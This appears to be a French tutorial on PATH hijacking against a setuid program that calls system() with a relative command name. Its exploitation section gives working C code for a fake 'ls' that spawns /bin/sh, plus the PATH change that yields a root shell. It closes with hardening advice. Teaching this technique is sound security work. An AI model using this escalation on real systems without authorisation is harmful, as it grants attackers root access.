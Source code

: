 * I.   Introduction
* II.  Pré-requis
* III. Exploitation
* IV.  Sécurisation

## I. Introduction
La fonction `system()` de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer, `system()` utilise la variable d'environnement `$PATH`. Il suffit donc d'agir sur cette variable pour faire executer à `system` le mauvais programme.

## II. Pré-requis
* Un programme suid
* L'argument de `system()` n'est pas un chemin absolu.


```{r, engine='bash'}
aas@ubuntu:~$ cat vuln.c
void main()
{
  system("ls -l");
}
```

Le comportement normal de ce programme est le suivant. Notons le suid activé.


```{r, engine='bash'}
aas@ubuntu:~$ ./vuln
total 48
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
-rws--x--x 1 root root 8600 sept. 16 10:07 vuln
-rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 
```

## III. Exploitation
### Création d'un faux programme 'ls' ouvrant un shell.
```{r, engine='bash'}
aas@ubuntu:~$ cat exploit.c 
void main()
{
  char *shell[] = {"/bin/sh",NULL};
  execve(shell[0],shell,NULL);
}
aas@ubuntu:~$ gcc exploit.c -o ls
```


### Modification de $PATH

```{r, engine='bash'}
aas@ubuntu:~$ PATH=.:$PATH
```
On ajoute le repertoire contenant notre faux programme `ls` en première position de la variable `$PATH`

### Execution
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln 
$
```
Pour executer `ls`, `system()` cherche en premier dans notre repertoire courant au lieu de `/bin/`, lance notre faux `ls`, qui lance un shell root puisque notre programme `vuln` est suid.
    
## IV. Sécurisation
Mettre le chemin absolue avec `system()` est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens" noyaux.  
Il faut donc utiliser les fonctions type `execve()` et bannir `System()`.

